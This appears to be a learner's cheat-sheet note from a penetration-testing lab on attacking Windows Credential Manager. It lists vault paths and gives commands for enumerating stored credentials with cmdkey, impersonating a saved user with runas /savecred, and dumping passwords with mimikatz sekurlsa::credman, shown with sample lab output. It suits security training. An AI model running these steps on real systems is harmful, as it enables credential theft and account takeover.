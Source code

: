 Credential Manager Server 2008 R2 and Windows 7
# cheatsheet
```cmd-session
C:\Users\sadams>whoami
srv01\sadams

CMD> cmdkey /list
```

run elevated as a stored user:
```
runas /savecred /user:SRV01\mcharles cmd
```

view credentials 
```
C:> rundll32 keymgr.dll,KRShowKeyMg
```
dump credential manager creds with mimikatz
```
mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

sekurlsa::credman
```
# Attacking Windows Credential Manager
it allows users and applications to securely store credentials relevant to other systems and websites. Credentials are stored in special encrypted folders on the computer under the user and system profiles
```
- `%UserProfile%\AppData\Local\Microsoft\Vault\`
- `%UserProfile%\AppData\Local\Microsoft\Credentials\`
- `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
- `%ProgramData%\Microsoft\Vault\`
- `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`
```


# Credential Guard
further protects the DPAPI master keys by storing them in secured memory enclaves ([Virtualization-based Security](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs)).

Microsoft often refers to the protected stores as `Credential Lockers` (formerly `Windows Vaults`). Credential Manager is the user-facing feature/API, while the actual encrypted stores are the vault/locker folders. The following table lists the two types of credentials Windows stores:

|Name|Description|
|---|---|
|Web Credentials|Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge.|
|Windows Credentials|Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories.|
![[Pasted image 20250623151709.png]]
It is possible to export Windows Vaults to `.crd` files either via Control Panel or with the following command.

created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems.


```cmd-session
C:\Users\sadams>rundll32 keymgr.dll,KRShowKeyMg
```
![[Pasted image 20250623151818.png]]
# CMDKEY
Creates, lists, and deletes stored user names and passwords or credentials.
We can use [cmdkey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) to enumerate the credentials stored in the current user's profile:
```cmd-session
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

| Key         | Value                                                                                                                                                      |
| ----------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Target      | The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.                                        |
| Type        | The kind of credential. Common types are `Generic` for general credentials, and `Domain Password` for domain user logons.                                  |
| User        | The user account associated with the credential.                                                                                                           |
| Persistence | Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with `Local machine persistence` survive reboots. |
|             |                                                                                                                                                            |
The second credential, `Domain:interactive=SRV01\mcharles`, is a domain credential associated with the user SRV01\mcharles. `Interactive` means that the credential is used for interactive logon sessions. Whenever we come across this type of credential, we can use `runas` to impersonate the stored user like so:

```cmd-session
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
```
![[Pasted image 20250623152244.png]]

# MimiKatz

There are many different tools that can be used to decrypt stored credentials. One of the tools we can use is [mimikatz](https://github.com/gentilkiwi/mimikatz). Even within `mimikatz`, there are multiple ways to attack these credentials - we can either dump credentials from memory using the `sekurlsa` module, or we can manually decrypt credentials using the `dpapi` module.
## dumping credential manager passwords:
run mimikatz with sekurlsa credential manager option
```
mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

sekurlsa::credman

   credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : Inlanefreight#2025
```

# OTHER TOOLS TO TRY
**Note:** Some other tools which may be used to enumerate and extract stored credentials included [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [LaZagne](https://github.com/AlessandroZ/LaZagne), and [DonPAPI](https://github.com/login-securite/DonPAPI).


# I COULDNT DO THE  EXERCISE

exercise here is weird, we get a shell as mcharles with his saved creds and then we cant view his credentials because of a weird error
that error may be tied to UAC
i did 
some payload to launch shell locally as mcharles
